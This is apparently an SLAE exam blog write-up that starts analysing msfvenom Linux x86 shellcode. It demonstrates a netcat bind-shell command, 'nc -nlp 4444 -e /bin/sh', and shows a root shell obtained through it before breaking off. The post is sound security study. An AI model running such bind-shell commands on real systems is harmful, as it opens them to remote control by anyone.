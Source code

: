 ![](/msfLogo.png)

For the 5th assignment of the SLAE Exam, I will be analyzing 3 different linux x86 shellcodes created with MSF Venom.
The first will be the payload: /linux/x86/exec
The command being executed will be: nc -nlp 4444 -e "/bin/sh" &
  - This will create a bind shell, on TCP port 4444, on all network interfaces, and then background the process.
Testing out the command:
```c
root@zed# nc -nlp 4444 -e "/bin/sh" &
[1] 9119
root@zed# netstat -tnalp | grep nc
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      9119/nc
```
We can see that the command successfully ran and was given the process ID 9119 and the job ID of 1.
Using netstat we see that the process nc is successfully listening on all interfaces (0.0.0.0), on TCP port 4444.
Since the job is running in the background, we can use the same terminal window to access our /bin/sh listening on all interfaces, by using netcat to connect to the localhost interface (127.0.0.1) on TCP port 4444.
```c
root@zed# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```
We successfully are able to run commands with our netcat, bind shell.

Now we will use msfvenom to create a shellcode to execute our netcat, bind shell command.
```c

